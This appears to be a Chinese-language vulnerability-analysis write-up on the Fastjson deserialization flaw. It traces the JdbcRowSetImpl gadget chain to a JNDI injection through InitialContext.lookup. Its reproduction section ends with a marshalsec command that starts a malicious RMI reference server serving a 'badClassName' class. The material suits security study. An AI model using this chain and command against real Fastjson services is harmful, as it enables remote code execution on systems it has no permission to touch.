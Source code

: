 回到parseObject方法

![image-20220226191959047](images/17.png)

创建了ObejectDeserializer对象,并且调用了其deserialize方法

getDeserializer方法是黑名单限制反序列化类,这里黑名单只有java.lang.Thread

![image-20220226232920325](images/18.png)

到达deserialze方法继续往下调试，就是ASM机制生成的临时代码了，这些代码是下不了断点、也看不到，直接继续往下调试即可，最后调用了set和get里面的方法

可以在http://www.lmxspace.com/2019/06/29/FastJson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0/#fastjson-1-22-1-24这个链接看看流程

# JdbcRowSetImpl利用链

虽然是反序列化,但是最后的结果是导致jndi注入,可以使用RMI+JNDI或者LDAP+JNDI

这一条是在实战中最常用的

## 漏洞分析

前面走到deserialize这里不变,都是反序列化的流程,主要是加载目标类,但是之前说fastjson反序列化最后会调用目标类的setter或者getter方法,从deserialize这里出发,一直可以跟到JdbcRowSetImpl类的setDataSourceName方法

![image-20220228171948623](images/19.png)

将dataSourceName值设置为目标RMI服务的地址,主要是为了后面的getDataSourceName

接下来就是payload中设置了autoCommit值,调用setAutoCommit()函数

![image-20220228172216978](images/20.png)

跟进connect

```
public String getDataSourceName() {
    return dataSource;
}
```

这里的getDataSourceName是我们在前面setDataSourceName()方法中设置的值，是我们可控的，所以进入了elseif

![image-20220228172249835](images/21.png)

这里调用了InitialContext的原生lookup方法,实现了JNDI注入

## 漏洞复现

```
起一个rmi服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8088/#badClassName
```
